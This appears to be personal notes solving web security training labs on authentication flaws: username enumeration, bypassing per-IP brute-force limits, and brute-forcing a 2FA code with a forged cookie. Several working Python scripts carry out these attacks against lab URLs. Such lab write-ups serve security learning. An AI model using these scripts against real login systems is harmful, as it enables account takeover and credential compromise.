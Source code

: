 # Authentication vulnerabilities

## Lab: Username enumeration via subtly different responses

Invalid username message: `Invalid username or password.`  
Valid username message: `Invalid username or password`(a dot missing)  

## Lab: Broken brute-force protection, IP block

Defense: limit the wrong attemps per IP, but reset conter when log in successfully.
Bypass: X times attemps and followed by a correct login.

```python
us_f = open("username", "r")
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")
# wiener&peter are valid
for i in range(len(passwords)):
    if (i % 2 == 0):
        us_t.write("wiener\n")
        ps_t.write("peter\n")
    us_t.write("carlos\n")
    ps_t.write(passwords[i])
    print(passwords[i], end='')
```

## Lab: Username enumeration via account lock

```python
us_f = open("username", "r")
usernames = us_f.readlines()
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")

for i in range(len(usernames)):
    us_t.write(usernames[i])
    ps_t.write(passwords[0])
    us_t.write(usernames[i])
    ps_t.write(passwords[1])
    us_t.write(usernames[i])
    ps_t.write(passwords[2])

ps_t.close()
us_t.close()
```

## Lab: Username enumeration via account lock
- First check with username is valid. In this lab, different message is gived, check response text length.
- Brute force password. (this lab is easy, without REAL account lock.)

```python
usf = open("usernames", "r")
usernames = usf.readlines() 

import requests

url = 'https://1a7c0051045b95cf81b74d4c0034003f.web-security-academy.net/login'
for user in usernames:
    for i in range(5):
        data = {
            'username': user[:-1], # IMPORTANT!! [:-1]! WITHOUT breaklines.
            'password': 'whatever'
        }
        response = requests.post(url, data=data)

        print(f"Status Code: {response.status_code}", end='. ')
        # print(f"Response Content: {response.text}")
        # print(user, end='')
        print(len(response.text), end=".")
        if ("Invalid username or password." in response.text):
            # print("Invalid username or password")
            print(user)
        elif ("You have made too many incorrect login attempts" in response.text):
            print("Also Found it: ", user)
        else:
            print("Found it: ", user)
```

## Lab: 2FA broken logic

Bypass:
1. change 2FA Code request cookie, `verify=carlos`
2. brute-force 2FA Code validation request:

```python
import requests

url = 'https://0afc00e803f4920e81f98935000a005d.web-security-academy.net/login2'

# Cookies
cookies = {
    'verify': 'carlos',
    'session': 'eErTh9MMiwoQBuIpyzr00GPQULR0tZKe'
}

for i in range(191, 9999):
    string = f"{i:04d}"
    # Data
    data = {
        'mfa-code': string,
    }

    # Make the POST request
    response = requests.post(url, cookies=cookies, data=data)

    # Print the response
    # print(f"Status Code: {response.status_code}")
    if ("Incorrect security code" not in response.text):
        print("Found it.", string)
    else:
        print(string, end=" ")
```